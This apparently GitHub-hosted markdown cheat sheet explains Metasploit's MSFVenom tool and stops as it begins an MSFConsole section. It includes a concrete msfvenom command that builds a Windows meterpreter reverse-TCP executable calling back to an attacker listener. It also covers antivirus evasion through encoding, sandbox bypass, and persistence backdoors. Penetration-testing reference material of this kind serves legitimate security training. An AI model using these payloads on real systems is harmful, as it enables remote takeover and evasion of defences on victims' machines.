 ## MSFVenom 

`MSFVenom` is a command-line tool within the **Metasploit Framework** used to generate and encode payloads for exploits. It combines the functionalities of the older `msfpayload` and `msfencode` tools, allowing users to create customized payloads for various platforms (Windows, Linux, Android, etc.) and formats (executables, scripts, etc.).  

#### **Key Features**:  
1. **Payload Generation**:  
   - Create standalone malicious files (e.g., `.exe`, `.elf`, `.apk`) or shellcode snippets.  
   - Supports **staged** (small initial payload) and **stageless** (self-contained) payloads.  

2. **Encoding & Obfuscation**:  
   - Evade antivirus detection using encoders like `shikata_ga_nai`.  
   - Specify iteration counts (`-i`) for repeated encoding.  

3. **Format Flexibility**:  
   - Output to executable files (`-f exe`), scripts (`-f python`), or raw shellcode (`-f raw`).  

4. **Integration with Metasploit**:  
   - Generated payloads can be paired with `exploit/multi/handler` in `msfconsole` for reverse connections.  

---

### **Basic Syntax**:  
```bash
msfvenom -p <payload> LHOST=<attacker_IP> LPORT=<port> -f <format> -o <output_file>
```
**Example**:  
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > payload.exe
```

---

### **Common Use Cases**:  
1. **Reverse Shells**: Bind a target’s shell to an attacker-controlled listener.  
2. **Fileless Attacks**: Generate shellcode for memory injection (e.g., in buffer overflow exploits).  
3. **Persistence**: Create backdoors for long-term access (e.g., via scheduled tasks).  

---

### **Important Notes**:  
- Always test payloads ethically in controlled environments.  
- Encoding ≠ encryption—modern AV may still detect obfuscated payloads. Combine with other evasion techniques (e.g., sandbox detection bypass).


### **MSFConsole**
**Metasploit Framework (MSF)** is a powerful penetration testing tool, and `msfconsole` is its primary command-line interface. Below is a brief explanation and a cheat sheet of essential commands.

---